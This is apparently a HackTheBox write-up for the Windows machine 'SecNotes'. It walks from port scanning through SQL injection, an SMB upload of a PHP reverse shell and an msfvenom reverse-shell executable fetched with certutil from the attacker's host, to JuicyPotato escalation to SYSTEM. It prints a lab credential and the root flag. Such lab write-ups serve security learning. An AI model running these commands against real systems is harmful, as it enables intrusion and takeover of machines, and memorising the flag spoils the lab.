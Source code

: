 ```yaml
---
title: SecNotes
categories: [HackTheBox]
tags: [JuicyPotato, PrivEsc, SMB, SQLi, Windows]
img_path: /Vulnhub-Files/img/
image:
  path: SecNotes/Untitled.png
  alt: Windows Easy level Machine 📂 ...
---
```




## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ sudo nmap -sC -sV -p- -T5 -oN Nmap_Result.txt 10.10.10.97
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-05 12:07 IST
Nmap scan report for 10.10.10.97
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-01-05T06:40:46
|_  start_date: N/A
|_clock-skew: mean: 4s, deviation: 0s, median: 3s
```

## Web Enumeration ⤵️

I checked the port 80 and got a login site so I firstly signup and I found out that this site works works as note taking site →

![Untitled](SecNotes/Untitled%201.png)

After login I got this interface and tried different input and one of them is `xss` and it is vulnerable to it →

![Untitled](SecNotes/Untitled%202.png)

and I also tried `sql injection` payload as signup and logged in through it →

![Untitled](SecNotes/Untitled%203.png)

I got all the `sql` dump on site through this payload →

![Untitled](SecNotes/Untitled%204.png)

I got the credentials so lets login into the `smb` and see some shares →

```bash
tyler : 92g!mA8BGjOirkL%OG*&
```

I got these shares →

![Untitled](SecNotes/Untitled%205.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ smbclient //10.10.10.97/new-site -U 'tyler' 
Password for [WORKGROUP\tyler]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  5 12:51:25 2024
  ..                                  D        0  Fri Jan  5 12:51:25 2024
  iisstart.htm                        A      696  Thu Jun 21 20:56:03 2018
  iisstart.png                        A    98757  Thu Jun 21 20:56:03 2018

		7736063 blocks of size 4096. 3361181 blocks available
smb: \> put php_shell_windows.php 
putting file php_shell_windows.php as \php_shell_windows.php (25.9 kb/s) (average 20.6 kb/s)
smb: \>
```

I uploaded the `php` reverse shell →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ rlwrap nc -lvnp 4444            
listening on [any] 4444 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.10.97] 53308
SOCKET: Shell has connected! PID: 5376
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
iis apppool\newsite

C:\inetpub\new-site>hostname
SECNOTES

C:\inetpub\new-site>
```

This connection get terminated after few seconds as that php reverse shell file get deleted so for getting a proper shell I created a payload in `exe` format and uploaded in `C:\Temp` and executed it and got the shell through that →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.16.31 lport=2222 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

I transfered this payload through `certutil` and you can also use `smb` to upload this payload in `C:\Temp` location →

```bash
C:\inetpub\new-site>mkdir C:\TEmp; cd C:\Temp
C:\TEmp>certutil -f -urlcache http://10.10.16.31/shell.exe shell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\TEmp>
C:\inetpub\new-site>cd C:\Temp

C:\TEmp>dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\TEmp

01/04/2024  11:39 PM    <DIR>          .
01/04/2024  11:39 PM    <DIR>          ..
01/04/2024  11:39 PM             7,168 shell.exe
               1 File(s)          7,168 bytes
               2 Dir(s)  13,765,730,304 bytes free

C:\TEmp>shell.exe
```

I got the proper shell here and lets see the privileges →

```bash
C:\TEmp>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

C:\TEmp>
```

I used `JuicyPotato` and got the shell through it , I uploaded the shell.bat file through `certutil` and created it through `msfvenom` port for 445 and LHOST as tun0 interface →

```bash
C:\TEmp>JuicyPotato.exe -t * -p shell.bat -l 4444
JuicyPotato.exe -t * -p shell.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\TEmp>
```

and I got the response as `nt authority\system` .

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ rlwrap nc -lvnp 445             
listening on [any] 445 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.10.97] 53949
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>hostname
hostname
SECNOTES

C:\WINDOWS\system32>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>
C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 1E7B-9B76
C:.
+---3D Objects
+---Contacts
+---Desktop
|       Microsoft Edge.lnk
|       root.txt
|       
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---OneDrive
+---Pictures
|   +---Camera Roll
|   \---Saved Pictures
+---Saved Games
+---Searches
|       winrt--{S-1-5-21-1791094074-1363918840-4199337083-500}-.searchconnector-ms
|       
\---Videos

C:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
99c1a34ca94afc1aada35347831a62b0

C:\Users\Administrator>
```

I am Administrator now !!